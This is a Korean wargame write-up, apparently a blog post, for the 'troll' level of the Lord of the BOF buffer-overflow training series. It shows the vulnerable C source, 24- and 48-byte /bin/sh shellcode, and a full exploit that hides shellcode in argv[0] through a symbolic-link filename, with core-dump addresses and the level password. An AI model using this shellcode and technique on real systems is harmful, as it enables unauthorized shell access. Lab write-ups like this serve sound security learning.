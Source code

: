 ```yaml
---
layout: post
title:  "[LOB]Level08. troll"
subtitle:   "[LOB]orge → troll"
categories: LOB
tags:
- Wargame
- LOB
- Write-up
---
```


## keyword : check argc

```c
/*
        The Lord of the BOF : The Fellowship of the BOF
        - troll
        - check argc + argv hunter
*/

#include <stdio.h>
#include <stdlib.h>

extern char **environ;

main(int argc, char *argv[])
{
	char buffer[40];
	int i;

	// here is changed
	if(argc != 2){
		printf("argc must be two!\n");
		exit(0);
	}

	// egghunter
	for(i=0; environ[i]; i++)
		memset(environ[i], 0, strlen(environ[i]));

	if(argv[1][47] != '\xbf')
	{
		printf("stack is still your friend.\n");
		exit(0);
	}

	// check the length of argument
	if(strlen(argv[1]) > 48){
		printf("argument is too long!\n");
		exit(0);
	}

	strcpy(buffer, argv[1]);
	printf("%s\n", buffer);

    // buffer hunter
    memset(buffer, 0, 40);

	// one more!
	memset(argv[1], 0, strlen(argv[1]));
}
```

shell(24byte) = \x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80



'\x2f'없는 shell(48byte) = \xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81

 argc의 개수를 2로 정해졌으므로, argv[2]를 사용 하지 못한다.

buffer내용도 0으로 초기화 되며, argv[1]를 이용해서 argv[2]를 덮으려고 해도 길이가 48을 넘어 갈 수 없다.

그리고 argv[1]에 넣은 만큼 0으로 초기화 된다.



트롤 맞네... 😩😫



초기화 안된 영역은 argv[0]영역 밖에 없다. 이를 이용하자.

`python -c 'print "A"*44+"\xbf"*4'`

으로 core를 생성 한 후, core덤프에서 x/32s $esp 로 보다보면 파일 이름이 들어간 주소가 보인다.

```sh
0xbffffc44:	 ""
0xbffffc45:	 ""
0xbffffc46:	 ""
0xbffffc47:	 "i686"
0xbffffc4c:	 "./trola"
0xbffffc54:	 ""
0xbffffc55:	 ""
0xbffffc56:	 ""
```



이제 argv[0]에 쉘코드를 넣어야 한다.

> 이때 중요한것은 쉘코드에 '\x2f'값이 없어야 한다. 이유는 '/'문자열이 '\x2f'이기 때문에, 경로로 인식하게 때문이다.



이때 심볼릭링크를 사용해야 한다.

```sh
[orge@localhost orge]$ ln -s troll `python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'`
[orge@localhost orge]$ ls
core
trola
troll
troll.c
??????????????????????????????????????????????????�?^1ɱ2?l?�??�?u��?�����2�Qi00tii0cjo?�QT?�?�?�?
```

```sh
0xbffffa89:	 ""
0xbffffa8a:	 ""
0xbffffa8b:	 "i686"
0xbffffa90:	 "./", '\220' <repeats 105 times>, "�\021^1ɱ2\200l\016�\001\200�\001u��\005�����2�Qi00tii0cjo\212�QT\212�\232�\f�\201"
0xbffffb2c:	 ""
0xbffffb2d:	 ""
```

```
./`python -c 'print "\x90"*100+"\xeb\x11\x5e\x31\xc9\xb1\x32\x80\x6c\x0e\xff\x01\x80\xe9\x01\x75\xf6\xeb\x05\xe8\xea\xff\xff\xff\x32\xc1\x51\x69\x30\x30\x74\x69\x69\x30\x63\x6a\x6f\x8a\xe4\x51\x54\x8a\xe2\x9a\xb1\x0c\xce\x81"'` `python -c 'print "A"*44+"\x90\xfa\xff\xbf"'`
```



쉘코드를 파일 이름으로 심볼릭 링크 했기 때문에, 쉘코드를 파일로 인식을 하게 되고, main함수의 ret가 argv[0]을 가리키고 있는데 해당 주소에는 쉘코드가 있기 때문에 쉘이 실행된다.



##### **troll / aspirin**